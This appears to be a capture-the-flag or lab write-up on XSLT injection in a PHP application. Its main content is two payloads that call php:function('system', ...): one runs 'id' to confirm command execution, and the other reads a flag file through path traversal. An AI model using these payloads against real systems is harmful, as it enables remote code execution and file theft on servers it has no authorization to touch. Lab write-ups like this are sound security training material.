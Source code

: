 # Exploiting XSLT Injection

Exploit the XSLT Injection vulnerability to obtain RCE and read the flag.

To explore this XSLT vulnerability lets try a simple payload first in order to see if the command gets executed:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```xml
<xsl:value-of select="php:function('system','id')" />
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it worked!

After looking arround with the `ls` command, we finnaly managed to get the flag with following payload:

```xml
<xsl:value-of select="php:function('system','cat ../../../../flag.txt')" />
```

<figure><img src="../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>
